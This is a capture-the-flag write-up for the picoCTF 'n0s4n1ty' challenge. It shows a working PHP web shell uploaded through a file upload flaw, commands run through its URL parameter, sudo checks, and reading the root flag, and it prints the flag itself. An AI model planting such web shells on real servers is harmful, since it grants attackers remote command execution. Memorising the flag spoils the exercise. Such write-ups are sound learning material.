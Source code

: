 # Step by step breakdown

**🔥 Exploited file upload vulnerability → PHP shell → Sudo privilege → Captured flag. No reverse shells needed this time.**

I first started off by trying to run a classic php shell through the file upload vulnerability

    <?php
    echo "<pre>";
    system($_GET['cmd']);
    echo "</pre>";
    ?>

I saved this code to a file and named it shell.php and uploaded it through the file upload functionality


![SHELLupload](../media/Screenshots/Shell-upload-output-n0s4n1ty.png)

afterwards I traversed to the URL where the file I executed a simple whoami command by appending '?cmd=whoami' to the URL


![whoamioutput](../media/Screenshots/whoami-output-n0s4n1ty.png)


With www-data I cannot access the /root directory, so I know I have to try some light privilege escalation techniques. I start by trying the sudo -l command which outputs:


![sudo-loutput](../media/Screenshots/sudo-l--output-n0s4n1ty.png)


which leads me to believe that I can simply access the root directory with sudo privileges without having to escalate to a root user, so I run

    ls -la /root

to view all the files in root directory


![rootoutput](../media/Screenshots/ls-root-n0s4n1ty.png)


Then it's BBQ chicken from there

!['loki gif'](../media/gifs/Devious-ahh-loki.gif)


# Capturing the flag 🏁

    sudo cat /root/flag.txt

![flagoutput](../media/Screenshots/flag-n0s4n1ty.png)

    picoCTF{wh47_c4n_u_d0_wPHP_8ca28f94}

Flag captured. Game over. 🎯

!['loki gif'](../media/gifs/tom-hiddleston-loki-wink.gif)


# Lessons learned

Don't waste trying to launch reverse shells on rooms like this cuz they're hosted on AWS and more than likely won't let you establish a connection and you'll spend twenty minutes trying to figure out what's wrong only to find out that you should have just stuck with the webshell instead of trying to be a ghetto red team operator

!['loki gif'](../media/gifs/Frustrated-loki.gif)

